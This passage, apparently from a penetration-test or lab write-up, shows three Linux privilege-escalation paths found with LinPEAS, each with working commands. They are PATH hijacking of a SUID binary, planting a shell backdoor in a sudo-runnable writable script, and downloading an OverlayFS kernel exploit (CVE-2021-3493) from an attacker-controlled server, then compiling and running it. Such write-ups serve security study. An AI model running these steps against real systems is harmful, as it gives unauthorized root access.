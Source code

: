    LinPEAS discovered multiple privilege escalation vectors:
   
   a. **SUID Binary Vulnerability**:
   ```bash
   # LinPEAS identified a custom SUID backup utility
   -rwsr-xr-x 1 root root 18K Feb 10 2024 /usr/local/bin/backup_logs
   
   # Analyzing the binary revealed command injection
   strings /usr/local/bin/backup_logs
   # Found: system("tar -czf /backup/logs.tar.gz /var/log/")
   
   # Created a malicious 'tar' binary in a writable path
   cd /tmp
   echo -e '#!/bin/bash\n/bin/bash -p' > tar
   chmod +x tar
   export PATH=/tmp:$PATH
   
   # Executed the SUID binary to get a root shell
   /usr/local/bin/backup_logs
   # Result: root shell obtained
   ```

   b. **Sudo Misconfiguration**:
   ```bash
   # LinPEAS identified sudo rights
   www-data ALL=(root) NOPASSWD: /usr/bin/python3 /opt/scripts/log_parser.py
   
   # Analyzing the script showed it was writable by our user
   ls -la /opt/scripts/log_parser.py
   -rw-rw-r-- 1 root www-data 2.5K Jan 15 2024 /opt/scripts/log_parser.py
   
   # Modified the script to add a backdoor
   echo 'import os; os.system("/bin/bash")' >> /opt/scripts/log_parser.py
   
   # Executed the script with sudo to get a root shell
   sudo /usr/bin/python3 /opt/scripts/log_parser.py
   # Result: root shell obtained
   ```

   c. **Kernel Exploit**:
   ```bash
   # LinPEAS identified a vulnerable kernel version
   Linux webserver1 4.15.0-132-generic #136-Ubuntu
   
   # Discovered vulnerability to CVE-2021-3493 (OverlayFS)
   # Downloaded the exploit from our server
   wget http://192.168.49.84:8000/overlayfs_exploit.c
   
   # Compiled and executed the exploit
   gcc overlayfs_exploit.c -o overlay_exploit
   chmod +x overlay_exploit
   ./overlay_exploit
   # Result: root shell obtained
   ```
